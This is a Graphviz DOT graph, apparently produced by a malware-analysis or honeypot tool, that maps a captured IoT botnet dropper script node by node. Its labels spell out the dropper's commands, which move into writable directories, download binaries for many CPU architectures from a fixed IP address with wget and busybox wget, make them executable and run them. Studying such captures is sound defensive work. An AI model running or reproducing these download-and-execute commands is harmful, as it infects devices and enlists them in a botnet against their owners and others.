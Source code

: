 digraph {
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 10 [label="||,"];
10 [label="wget http://209.141.42.3/bins/ssh.x86 "];
10 -> 12 [label=";,"];
12 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.x86 "];
12 -> 14 [label=";,"];
14 [label="cat ssh.x86 qwacdw "];
14 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 32 [label="||,"];
32 [label="wget http://209.141.42.3/bins/ssh.mips "];
32 -> 34 [label=";,"];
34 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.mips "];
34 -> 36 [label=";,"];
36 [label="cat ssh.mips qwacdw "];
36 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 54 [label="||,"];
54 [label="wget http://209.141.42.3/bins/ssh.mpsl "];
54 -> 56 [label=";,"];
56 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.mpsl "];
56 -> 58 [label=";,"];
58 [label="cat ssh.mpsl qwacdw "];
58 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 76 [label="||,"];
76 [label="wget http://209.141.42.3/bins/ssh.mips64 "];
76 -> 78 [label=";,"];
78 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.mips64 "];
78 -> 80 [label=";,"];
80 [label="cat ssh.mips64 qwacdw "];
80 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 98 [label="||,"];
98 [label="wget http://209.141.42.3/bins/ssh.x32 "];
98 -> 100 [label=";,"];
100 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.x32 "];
100 -> 102 [label=";,"];
102 [label="cat ssh.x32 qwacdw "];
102 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 142 [label="||,"];
142 [label="wget http://209.141.42.3/bins/ssh.arm "];
142 -> 144 [label=";,"];
144 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.arm "];
144 -> 146 [label=";,"];
146 [label="cat ssh.arm qwacdw "];
146 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 142 [label="||,"];
142 [label="wget http://209.141.42.3/bins/ssh.arm "];
142 -> 144 [label=";,"];
144 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.arm "];
144 -> 146 [label=";,"];
146 [label="cat ssh.arm qwacdw "];
146 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 164 [label="||,"];
164 [label="wget http://209.141.42.3/bins/ssh.arm6 "];
164 -> 166 [label=";,"];
166 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.arm6 "];
166 -> 168 [label=";,"];
168 [label="cat ssh.arm6 qwacdw "];
168 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 186 [label="||,"];
186 [label="wget http://209.141.42.3/bins/ssh.arm7 "];
186 -> 188 [label=";,"];
188 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.arm7 "];
188 -> 190 [label=";,"];
190 [label="cat ssh.arm7 qwacdw "];
190 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 208 [label="||,"];
208 [label="wget http://209.141.42.3/bins/ssh.ppc "];
208 -> 210 [label=";,"];
210 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.ppc "];
210 -> 212 [label=";,"];
212 [label="cat ssh.ppc qwacdw "];
212 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 220 [label=";,"];
220 [label="cd /tmp "];
220 -> 220
222 [label="cd /var/run "];
222 -> 224 [label="||,"];
224 [label="cd /mnt "];
224 -> 226 [label="||,"];
226 [label="cd /root "];
226 -> 228 [label="||,"];
228 [label="cd / "];
228 -> 230 [label="||,"];
230 [label="wget http://209.141.42.3/bins/ssh.sh4 "];
230 -> 232 [label=";,"];
232 [label="/bin/busybox wget http://209.141.42.3/bins/ssh.sh4 "];
232 -> 234 [label=";,"];
234 [label="cat ssh.sh4 qwacdw "];
234 -> 236 [label=";,"];
236 [label="qwacdw "];
236 -> 236
238 [label="chmod +x * "];
238 -> 240 [label=";,"];
240 [label="./qwacdw ssh "];
240 -> 241 [label=";,"];
}
